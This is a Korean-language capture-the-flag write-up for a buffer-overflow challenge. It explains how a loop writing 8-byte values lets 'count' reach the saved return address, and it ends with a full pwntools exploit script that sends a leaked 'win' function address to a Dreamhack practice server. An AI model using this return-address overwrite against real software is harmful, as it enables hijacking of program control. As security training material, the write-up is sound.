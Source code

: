 ```
for (idx = 0; idx < count; idx++)
{
  *(long *)(name + idx * 8) = value;
}
```

여기서 `BOF` 취약점이 발생해서, `count = 3`일 때 `return_address`를 가리키기 때문에 `value`에 앞에서 출력한 `win`의 주소를 대입해서 `return_address`로 대입해주면 익스플로잇을 성공할 수 있다.

**따라서, `value`에서는 앞에서 출력한 `win`의 주소를 대입해주고, `count`에는 최소 `4`를 입력해주면 된다. (안전하게는 `count = 4`이고, 값을 더 키워줘도 너무 키워져서 존재하지 않는 주소에 대입하는거 아니면 `win`에서 `exit`를 통해 종료해서 해당 주소는 참조하지 않으므로 괜찮다.)

# Exploit

주의할 점은, `value`를 `%lx`로 받기 때문에, `0x~~` 형식인 `hex(win_addr)`로 전달해줘야 한다. (`p64`로 하면 안됨)

```
from pwn import *

p = remote('host3.dreamhack.games', 18735)

p.recvuntil(b' function (')
win_addr = int(p.recvn(8), 16)

p.sendlineafter(b'name: ', b'a')
p.sendlineafter(b'hex value: ', hex(win_addr)) 
p.sendlineafter(b'integer count: ', b'4')

p.interactive()
```
